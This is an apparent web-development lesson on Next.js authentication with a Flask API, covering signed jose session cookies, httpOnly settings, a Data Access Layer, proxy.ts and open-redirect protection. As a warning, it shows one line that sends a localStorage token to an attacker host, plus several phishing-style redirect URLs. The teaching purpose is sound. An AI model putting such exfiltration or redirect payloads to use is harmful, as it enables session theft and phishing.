

::part[Learn the Concept]{n="1"}

## 🎯 What you'll learn

- **Authentication** (who are you?) vs **authorization** (what may you do?)
- Where the login token should live — and where it should not
- Signed session cookies with **jose**, stored as **httpOnly** cookies
- Login and logout with **Server Actions** that call Flask
- A **Data Access Layer** that checks the session before loading data
- **`proxy.ts`** for quick redirects — and why it isn't enough
- Blocking **open redirects** and not revealing which emails are registered

## 🔤 Key words

| Word | In simple words | Bahasa Indonesia |
|---|---|---|
| **Authentication** | Checking who the user is (login) | Autentikasi |
| **Authorization** | Checking what the user is allowed to do | Otorisasi / izin |
| **Session** | "This browser is logged in as user 7" remembered between requests | Sesi |
| **Cookie** | A small piece of data the browser sends with every request to your site | Cookie |
| **httpOnly** | A cookie setting: JavaScript can't read it | Tidak bisa dibaca JS |
| **JWT** | A token with data inside and a signature that shows it wasn't changed | Token bertanda tangan |
| **XSS** | An attack that runs someone's script on your page | Serangan skrip |
| **Data Access Layer (DAL)** | Server files that check the session, then load data | Lapisan akses data |
| **Open redirect** | Sending users to any site an attacker puts in the URL | Pengalihan berbahaya |

## 🧠 The big idea

Think of a **concert wristband**. At the gate (login), security checks your ticket (password) once and gives you a wristband (session cookie). Inside, staff check the wristband instead of your ticket. The wristband is **tamper-proof** (signed), **hard to pass to someone else** (httpOnly, secure) and **expires** after the event.

- The **usher at the hall door** only glances at wristbands → `proxy.ts` (fast, not strict).
- The **backstage guard** checks the wristband carefully and your name on the list → the Data Access Layer and the Flask API (the real check).

## ❓ Why it matters

After `POST /api/v1/auth/login`, your Flask API (Module 2) returns an **access token**. Next.js must send it with every API call. The big question is **where to keep it**:

| Storage | Can JavaScript read it (so XSS can steal it)? | Sent automatically? | Available on the server? |
|---|---|---|---|
| `localStorage` | **yes** ❌ | no | no ❌ |
| React state / Zustand | yes ❌ | no | no — lost on refresh ❌ |
| Normal cookie | **yes** ❌ | yes | yes |
| **httpOnly + secure cookie** ✅ | **no** | yes (same site) | **yes** |

In the App Router most data is loaded **on the server**, so an httpOnly cookie is both the safest and the easiest choice.

What goes wrong otherwise:

```tsx
// ❌ a typical tutorial
localStorage.setItem("token", data.access_token);
// any injected script (a compromised npm package, an XSS bug in a markdown renderer) can run:
fetch("https://attacker.example/steal?t=" + localStorage.getItem("token"));
```

Other common problems: checking login only in a layout (layouts don't run again on every navigation, and Server Actions skip them), redirecting to `?next=https://phishing.example`, and messages like "No account with this email" that tell attackers who is registered.

## 📖 Step by step

### 1. The whole flow



1. The login form sends email and password to a Server Action.
2. The action asks Flask to log in and receives the token.
3. Next.js puts the token inside a **signed session** and saves it as an httpOnly cookie.
4. On every page, the session is checked, and the token is used to call Flask **from the server**. The browser never sees the token.

### 2. Signing the session with jose

```ts
// lib/session.ts
import "server-only";
import { jwtVerify, SignJWT } from "jose";
import { cookies } from "next/headers";

const key = () => new TextEncoder().encode(process.env.SESSION_SECRET);   // ≥ 32 random chars

export async function encrypt(payload: SessionPayload) {
  return new SignJWT(payload).setProtectedHeader({ alg: "HS256" }).setIssuedAt().setExpirationTime("7d").sign(key());
}

export async function decrypt(token: string | undefined) {
  if (!token) return null;
  try {
    const { payload } = await jwtVerify<SessionPayload>(token, key(), { algorithms: ["HS256"] });
    return payload;
  } catch {
    return null;                     // tampered, expired, malformed → logged out
  }
}
```

- A **signature** is like a **wax seal** on a letter: anyone can read the letter, but if someone changes it, the seal breaks.
- `algorithms: ["HS256"]` fixes the signing method — never let the token decide.
- Invalid, changed or expired token → `null` → treated as "logged out" (not a crash).
- Create the secret with `openssl rand -base64 32` and keep it in `.env.local` or your host's secret manager.

:::note[Signed vs encrypted]
A signed JWT is **tamper-proof but readable** — base64 is not encryption. That's acceptable inside an httpOnly cookie. If the session holds something sensitive (like the Flask token) and you want extra protection, use jose's `EncryptJWT`, or a **database session** that only keeps a random session id in the cookie. The exercise uses a signed token to keep the focus on the flow.
:::

### 3. Setting and deleting the cookie

```ts
export async function createSession(user: { id: number; role: Role }, accessToken: string) {
  const expires = new Date(Date.now() + 7 * 24 * 60 * 60 * 1000);
  const token = await encrypt({ userId: user.id, role: user.role, accessToken, expiresAt: expires.toISOString() });
  (await cookies()).set("session", token, { httpOnly: true, secure: true, sameSite: "lax", path: "/", expires });
}

export async function deleteSession() {
  (await cookies()).delete("session");
}
```

- `cookies()` is **async** — use `await`.
- You can only **set** cookies in Server Actions and Route Handlers, not while rendering a page.

| Setting | Protects against |
|---|---|
| `httpOnly` | scripts reading the cookie (token theft through XSS) |
| `secure` | sending it over plain HTTP |
| `sameSite: "lax"` | most CSRF: the cookie isn't sent with POSTs from other sites |
| `expires` / `maxAge` | sessions that never end |

Server Actions also compare the `Origin` header with your site, so calls from other sites are rejected.

### 4. Login and logout actions

```ts
"use server";

export async function login(_prev: LoginState, formData: FormData): Promise<LoginState> {
  const parsed = credentialsSchema.safeParse({ email: formData.get("email"), password: formData.get("password") });
  if (!parsed.success) return { message: "Enter your email and password" };

  try {
    const { accessToken, user } = await loginWithFlask(parsed.data.email, parsed.data.password);
    await createSession(user, accessToken);
  } catch (error) {
    if (error instanceof InvalidCredentials) return { message: "Invalid email or password" };   // same for both cases
    throw error;
  }
  redirect(safeNextPath(formData.get("next")));
}

export async function logout() {
  await deleteSession();
  redirect("/login");
}
```

- "Invalid email or password" is the **same message** whether the email exists or not. A more specific message would help attackers find registered users.
- `redirect` stays outside `try/catch` (lesson 01).

### 5. Blocking open redirects

After login we send users back where they came from (`/login?next=/applications/3`). Attackers abuse this:

```text
https://careerpilot.app/login?next=https://careerp1lot.app/fake-dashboard
```

```ts
export function safeNextPath(value: unknown) {
  return typeof value === "string" && /^\/(?![/\\])/.test(value) ? value : "/dashboard";
}
```

Only allow **relative paths on your own site**. Like a hotel receptionist who only sends guests to rooms **inside the hotel**, never to an address a stranger wrote on a note. `//evil.example` and `/\evil.example` look relative, but browsers treat them as other sites — the regex blocks them.

### 6. The Data Access Layer

```ts
// lib/dal.ts
import "server-only";
import { cache } from "react";

export const verifySession = cache(async () => {
  const session = await decrypt((await cookies()).get("session")?.value);
  if (!session?.userId) redirect("/login");
  return { userId: session.userId, role: session.role, accessToken: session.accessToken };
});

export async function getCurrentUser() {
  const session = await verifySession();
  return { id: session.userId, role: session.role };     // DTO — no token
}
```

- Every data function (`getApplications()`, `addNote()`) calls `verifySession()` **first**, then uses the token to call Flask. This is the backstage guard.
- `cache()` means many components can call it during one request, but the cookie is checked only once.
- `getCurrentUser()` returns a small object without the token (a **DTO**), so the token can't accidentally reach Client Components.

### 7. `proxy.ts` — the quick check

```ts
// proxy.ts (project root) — Next.js 16 renamed middleware.ts to proxy.ts
export default async function proxy(request: NextRequest) {
  const { pathname, search } = request.nextUrl;
  const session = await decrypt(request.cookies.get("session")?.value);   // cookie only — no DB/API calls

  if (isProtected(pathname) && !session) {
    const url = new URL("/login", request.nextUrl);
    url.searchParams.set("next", pathname + search);
    return NextResponse.redirect(url);
  }
  if (pathname === "/login" && session) return NextResponse.redirect(new URL("/dashboard", request.nextUrl));
  return NextResponse.next();
}

export const config = { matcher: ["/((?!api|_next/static|_next/image|favicon.ico).*)"] };
```

- `proxy.ts` runs before **every** matching request, so keep it fast: read the cookie only, no database or API calls.
- It makes the experience smoother (no flash of a protected page before redirecting).
- It is the usher, not the guard: the DAL and Flask still do the real checks.

### 8. Showing the user in Client Components

Client Components sometimes need the user (an avatar, a "Log out" button). Pass the small **DTO** from a Server Component as props, or put it in a small context. Never send the token to the browser. Logout is a Server Action: `<form action={logout}><button>Log out</button></form>`.

## ⚠️ Common mistakes

- Setting cookies while rendering a page → error; set them only in actions or route handlers.
- A `decrypt` that throws on a bad token → a 500 page instead of a redirect to login.
- `secure: false` everywhere "for localhost", and forgetting it in production.
- Checking the session in the page but not in the Server Action that changes data.
- Putting the full Flask user object (with internal fields) into the session.
- Tokens in `localStorage` or `NEXT_PUBLIC_` variables.
- Building password hashing, reset flows and MFA yourself — let the tested backend or an auth library do it.

## 🏆 Best practices

- [ ] Tokens only in **httpOnly + secure + sameSite** cookies.
- [ ] Fix the JWT algorithm; use a random secret of at least 32 bytes from a secret manager; replace it if it leaks.
- [ ] Reasonable session expiry (for example 7 days); ask for login again before very sensitive actions.
- [ ] Check the session in a **DAL** close to the data, and in every Server Action and Route Handler.
- [ ] Use `proxy.ts` only for quick redirects — never as the only check.
- [ ] Don't rely on layouts for login checks.
- [ ] Same login error for wrong email and wrong password; limit login attempts on the API (Module 2).
- [ ] Check `next` / `returnTo` redirect targets.
- [ ] Return DTOs; mark data files `server-only`.
- [ ] Log security events (failed logins, logouts) on the server — never the password or token.

::part[Explain & Design]{n="2"}

## 🗣️ Explain it

Using the concert wristband idea, explain to a teammate why `proxy.ts` alone isn't enough, and what the "backstage guard" is in our app.

## 📐 Design it

CareerPilot wants **"Log out of all devices"** and a way for admins to **ban** a user immediately. The current design uses signed cookies that are valid for 7 days and aren't stored anywhere on the server. Propose a change: what is stored where, what changes in `verifySession`, `proxy.ts` and Flask, and what it costs.

:::quiz
Show a possible design

- **Sessions stored on the server:** Flask gets a `sessions` table (`id` = long random value, `user_id`, `created_at`, `expires_at`, `revoked_at`, `user_agent`). Login creates a row; the cookie holds only the **session id**.
- **`verifySession` (DAL):** read the cookie → ask Flask `GET /auth/session` (or look it up in Redis) → reject if revoked, expired or the user is banned. Use React `cache()` per request, plus a **short Redis cache** (30–60 seconds) to avoid a lookup on every call — so a ban takes effect within 60 seconds, or skip the cache for admin and sensitive pages.
- **`proxy.ts`:** still only checks that a valid-looking cookie exists. No network calls.
- **Log out of all devices:** `UPDATE sessions SET revoked_at = now() WHERE user_id = ?`.
- **Ban:** mark the user as banned and revoke all sessions; Flask also rejects tokens of banned users on every request (a second layer of protection).
- **Cost:** a lookup per request (a bit slower, more load on Redis/database), more code, and a job to clean old sessions. **Benefit:** instant logout everywhere and a "your devices" page.
:::

### 📝 Self-review checklist

- [ ] The browser never gets a token it could use against Flask directly
- [ ] The delay before a ban takes effect is stated clearly
- [ ] `proxy.ts` makes no network calls

::ai-review{task="design"}

::part[Toy Exercise]{n="3"}

:::exercise{path="exercises/web/m4/w5/02-auth-sessions" ai="no-ai" title="Sessions, DAL and proxy.ts"}
Build signed session cookies with jose, login/logout Server Actions that call Flask, open-redirect protection, a cached `verifySession` DAL that returns DTOs, and quick redirects in `proxy.ts`. The tests use real JWTs, forged tokens and `NextRequest` objects.
:::

:::hints
- `new TextEncoder().encode(secret)` turns the secret into a key for `SignJWT(...).sign(key)`.
- Wrap `jwtVerify` in `try/catch` and return `null`.
- The matcher test reads it as a regular expression — copy the pattern from the README exactly.
- `request.nextUrl.search` includes the leading `?`.
:::

## ✅ Quick check

:::quiz
An attacker finds an XSS bug on your site. With httpOnly session cookies, what can and can't they do?

They **can't read** the cookie to steal the session for later. They **can** still send requests from the victim's browser while the page is open, because the cookie is sent automatically. httpOnly limits the damage; you still have to fix XSS and add a Content Security Policy.
:::

:::quiz
Why does `verifySession` use React `cache()` instead of a normal variable at the top of the file?

`cache()` remembers the result only during one request. A normal module variable would be shared between **different users'** requests on the same server — a data leak.
:::

## 📚 Keep learning

- Next.js docs (bundled): Authentication guide; Data Security guide; `proxy.js` file convention; `cookies`
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [jose documentation](https://github.com/panva/jose)
